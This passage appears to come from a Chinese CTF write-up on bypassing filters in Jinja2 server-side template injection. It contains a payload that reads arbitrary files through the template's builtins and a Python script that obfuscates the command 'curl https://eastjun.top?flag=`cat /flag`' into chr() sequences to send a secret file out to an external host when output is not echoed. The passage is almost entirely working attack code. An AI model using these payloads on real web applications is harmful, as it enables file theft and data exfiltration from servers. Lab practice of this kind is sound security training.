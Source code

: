 {%print((lipsum|attr(glob)|attr(getitem)(builtins)).open(file).read())%}
```

^
## **过滤print关键词，不回显**

用curl外带
脚本
```
import re
def filting(s):
    return "".join([f"chr({ord(i)})~" for i in s])[:-1]
cmd=filting("curl https://eastjun.top?flag=`cat /flag`")
nums = set(re.findall("(\d+)",cmd))
for i in nums:
    patnum = "".join(["zero~" if j=="0" else f'{"e" * int(j)}~' for j in f"{i}"])
    cmd = cmd.replace(f"{i}",f"({patnum[:-1]})|int")
print(cmd)
```